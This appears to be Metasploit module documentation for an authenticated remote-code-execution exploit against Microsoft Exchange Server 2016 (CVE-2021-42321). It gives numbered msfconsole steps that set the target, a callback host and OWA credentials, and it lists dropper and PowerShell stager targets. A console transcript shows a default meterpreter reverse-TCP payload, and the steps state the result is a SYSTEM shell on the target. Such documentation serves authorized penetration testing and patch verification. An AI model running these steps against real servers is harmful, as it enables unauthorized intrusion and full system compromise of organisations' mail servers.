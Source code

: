 1. Follow [Setup](#setup) to set up a vulnerable target.
2. `msfconsole`
3. `set RHOST <target IP address>`
4. `set LHOST <IP for target to connect back to>`
5. `set HttpUsername <username of OWA user to log in as>`
6. `set HttpPassword <password for this OWA user>`
7. Optional: `set DOMAIN <domain of OWA user>`
8. Optional: `set VHOST <vhost of target>`
9. `exploit`
10. You should get a shell on the target as `NT AUTHORITY\SYSTEM` if it is vulnerable.

## Targets

### 0

Windows Command

### 1

Windows Dropper

### 2

PowerShell Stager

## Options

### HttpUsername

Set this to the OWA username. This can also be set to a valid domain username that has permissions to log into Exchange.

### HttpPassword

Set this to the OWA password. This can also be set to the password for a domain user that has permissions to log into Exchange.

## Scenarios

### Exchange Server 2016 CU22 (Build 15.1.2375.7) on Windows Server 2016 x64 (CVE-2021-42321)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce 
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options 

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b
